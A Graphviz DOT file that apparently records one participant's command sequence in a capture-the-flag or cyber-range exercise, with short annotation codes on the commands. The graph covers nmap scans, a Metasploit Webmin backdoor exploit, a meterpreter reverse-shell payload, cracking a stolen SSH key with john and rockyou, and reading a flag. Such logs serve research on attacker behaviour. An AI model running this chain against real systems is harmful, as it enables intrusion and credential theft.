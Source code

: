 // creating graph for user: 92
digraph {
	node [shape=box]
	0 [label="nmap 172.181.1.5 -p- A0 "]
	1 [label="nmap 172.181.1.5 -p- -Pn A0 "]
	2 [label="nmap 172.18.1.5 -p- A0 "]
	3 [label="nmap 172.18.1.5 -p- -A A0 "]
	4 [label="msfconsole U"]
	5 [label="search webmin U"]
	6 [label="use exploit/unix/webapp/webmin_backdoor U"]
	7 [label="show options U"]
	8 [label="ip a U"]
	9 [label="set LHOST 10.1.135.83 U"]
	10 [label="show options U"]
	11 [label="set RHOSTS 172.18.1.5 U"]
	12 [label="exploit U"]
	13 [label="search web U"]
	14 [label="search web_de U"]
	15 [label="setg LHOST 10.1.135.83 U"]
	16 [label="use exploit/multi/script/web_delivery U"]
	17 [label="show optins U"]
	18 [label="show otions U"]
	19 [label="show options U"]
	20 [label="set target linux U"]
	21 [label="show options U"]
	22 [label="show targets U"]
	23 [label="set target  U"]
	24 [label="show options U"]
	25 [label="show targets U"]
	26 [label="set target  U"]
	27 [label="set target 6 U"]
	28 [label="show options U"]
	29 [label="set payload linux/x64/meterpreter/reverse_tcp  U"]
	30 [label="show options U"]
	31 [label="run U"]
	32 [label="use exploit/unix/webapp/webmin_backdoor U"]
	33 [label="run U"]
	34 [label="set LPORT 4445 U"]
	35 [label="run U"]
	36 [label="nmap 172.18.1.5/12 -p- A0 "]
	37 [label="sessions 3 U"]
	38 [label="sessions U"]
	39 [label="sessions -u ~ U"]
	40 [label="sessions -u 3 U"]
	41 [label="sessions 3 U"]
	42 [label="nmap 172.18.1.5/24 -p- A0 "]
	43 [label="sessions 4 U"]
	44 [label="sessions U"]
	45 [label="nmap 172.18.1.2 A0 "]
	46 [label="ip a U"]
	47 [label="ip route U"]
	48 [label="sessions 3 U"]
	49 [label="sessions 4 U"]
	50 [label="sessions U"]
	51 [label="nmap 81.2.195.254 A0 "]
	52 [label="curl 81.2.195.254 U"]
	53 [label="ping 10.1.18.22 U"]
	54 [label="nmap 10.1.18.22 A0 "]
	55 [label="nmap 10.1.17.4 A0 "]
	56 [label="cd .ssh U"]
	57 [label="ls U"]
	58 [label="cat id_rsa U"]
	59 [label="john id_rsa U"]
	60 [label="ssh2john U"]
	61 [label="locate ssh2john U"]
	62 [label="cd U"]
	63 [label="python ssh2john.py U"]
	64 [label="python ssh2john.py .ssh/id_rsa A5 M5 "]
	65 [label="python ssh2john.py .ssh/id_rsa > eve A5 M5 "]
	66 [label="john eve U"]
	67 [label="locate rockyou U"]
	68 [label="john eve --wordlist=/usr/share/wordlists/rockyou.txt U"]
	69 [label="ls U"]
	70 [label="ssh eve@10.1.17.4 U"]
	71 [label="chmod 600 .ssh/id_rsa U"]
	72 [label="ssh eve@10.1.17.4 U"]
	73 [label="ls -la U"]
	74 [label="cd top-secret/ U"]
	75 [label="ls U"]
	76 [label="cat flag.txt A8 M8 "]
	77 [label="sessions 5 U"]
	0 -> 1 [constraint=false]
	1 -> 2 [constraint=false]
	2 -> 3 [constraint=false]
	3 -> 4 [constraint=false]
	4 -> 5 [constraint=false]
	5 -> 6 [constraint=false]
	6 -> 7 [constraint=false]
	7 -> 8 [constraint=false]
	8 -> 9 [constraint=false]
	9 -> 10 [constraint=false]
	10 -> 11 [constraint=false]
	11 -> 12 [constraint=false]
	12 -> 13 [constraint=false]
	13 -> 14 [constraint=false]
	14 -> 15 [constraint=false]
	15 -> 16 [constraint=false]
	16 -> 17 [constraint=false]
	17 -> 18 [constraint=false]
	18 -> 19 [constraint=false]
	19 -> 20 [constraint=false]
	20 -> 21 [constraint=false]
	21 -> 22 [constraint=false]
	22 -> 23 [constraint=false]
	23 -> 24 [constraint=false]
	24 -> 25 [constraint=false]
	25 -> 26 [constraint=false]
	26 -> 27 [constraint=false]
	27 -> 28 [constraint=false]
	28 -> 29 [constraint=false]
	29 -> 30 [constraint=false]
	30 -> 31 [constraint=false]
	31 -> 32 [constraint=false]
	32 -> 33 [constraint=false]
	33 -> 34 [constraint=false]
	34 -> 35 [constraint=false]
	35 -> 36 [constraint=false]
	36 -> 37 [constraint=false]
	37 -> 38 [constraint=false]
	38 -> 39 [constraint=false]
	39 -> 40 [constraint=false]
	40 -> 41 [constraint=false]
	41 -> 42 [constraint=false]
	42 -> 43 [constraint=false]
	43 -> 44 [constraint=false]
	44 -> 45 [constraint=false]
	45 -> 46 [constraint=false]
	46 -> 47 [constraint=false]
	47 -> 48 [constraint=false]
	48 -> 49 [constraint=false]
	49 -> 50 [constraint=false]
	50 -> 51 [constraint=false]
	51 -> 52 [constraint=false]
	52 -> 53 [constraint=false]
	53 -> 54 [constraint=false]
	54 -> 55 [constraint=false]
	55 -> 56 [constraint=false]
	56 -> 57 [constraint=false]
	57 -> 58 [constraint=false]
	58 -> 59 [constraint=false]
	59 -> 60 [constraint=false]
	60 -> 61 [constraint=false]
	61 -> 62 [constraint=false]
	62 -> 63 [constraint=false]
	63 -> 64 [constraint=false]
	64 -> 65 [constraint=false]
	65 -> 66 [constraint=false]
	66 -> 67 [constraint=false]
	67 -> 68 [constraint=false]
	68 -> 69 [constraint=false]
	69 -> 70 [constraint=false]
	70 -> 71 [constraint=false]
	71 -> 72 [constraint=false]
	72 -> 73 [constraint=false]
	73 -> 74 [constraint=false]
	74 -> 75 [constraint=false]
	75 -> 76 [constraint=false]
	76 -> 77 [constraint=false]
	rankdir=LR
}
